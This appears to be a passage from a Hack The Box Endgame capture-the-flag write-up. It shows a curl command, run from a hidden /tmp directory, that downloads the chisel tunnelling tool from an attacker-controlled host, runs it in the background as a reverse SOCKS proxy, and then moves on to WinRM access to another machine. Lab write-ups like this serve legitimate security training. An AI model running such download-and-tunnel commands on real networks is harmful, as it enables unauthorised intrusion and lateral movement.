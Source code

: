 ```
beta_user@Ignis:/tmp/.1$ curl http://10.14.14.37/chisel > chisel && chmod +x chisel && nohup ./chisel client 10.14.14.37:8000 R:socks &
```

[![cme-initial.png](/assets/images/htb/endgames/rpg/cme-initial.png)](/assets/images/htb/endgames/rpg/cme-initial.png)
{:.center-image}

Next I will WinRM into the Lux box.

[![lux-evil-winrm.png](/assets/images/htb/endgames/rpg/lux-evil-winrm.png)](/assets/images/htb/endgames/rpg/lux-evil-winrm.png)
{:.center-image}
